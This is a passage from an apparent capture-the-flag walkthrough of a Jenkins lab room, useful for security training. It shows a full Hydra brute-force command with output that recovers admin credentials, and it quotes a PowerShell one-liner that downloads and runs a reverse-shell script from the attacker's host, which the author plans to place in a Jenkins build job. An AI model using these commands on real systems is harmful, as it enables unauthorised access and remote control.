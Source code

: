 ```bash

```

As you can see this attack is gonna take a while since rockyou.txt is quite a large list. So let's use one of the SecList's shorter lists called [**best1050.txt**](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best1050.txt). 


With the new list we get our result much faster:

```bash
sudo hydra -s 8080 10.10.192.65 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L best1050.txt -P best1050.txt -w 30
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-17 14:32:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1102500 login tries (l:1050/p:1050), ~68907 tries per task
[DATA] attacking http-post-form://10.10.192.65:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password
[STATUS] 384.00 tries/min, 384 tries in 00:01h, 1102116 to do in 47:51h, 16 active
[STATUS] 384.00 tries/min, 1152 tries in 00:03h, 1101348 to do in 47:49h, 16 active
[8080][http-post-form] host: 10.10.192.65   login: admin   password: admin
```


So that gives us the answer to Question #2 in a brute-forced way.

Let's move to the next objective.

> Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: **_powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-IP -Port your-port_**

Well this objective kind of gives us quite a hit at what to do next. I figure we need to find a way to execute that on our newly accessed server. Let's take a look at what can we do in our Jenkins admin panel.

If we take a look at the existing jobs in the server, we see this job called **project** which was last run months ago, but it also ran successfully.

![Running Job on the server](https://i.imgur.com/cilmo5K.png)
Let's click on the job name to see what else we got here.

![Job details page](https://i.imgur.com/9IRIUNm.png)
If we click the **configure** button on this dashboard. We get the specific details of what this job does. Let's scroll down to the **Build** to see some more info.

![Job build command](https://i.imgur.com/T86ylyd.png)
So this job only runs a **whoami** command. I figure we can just use this section to place our exploitation command as suggested by the room's hint.
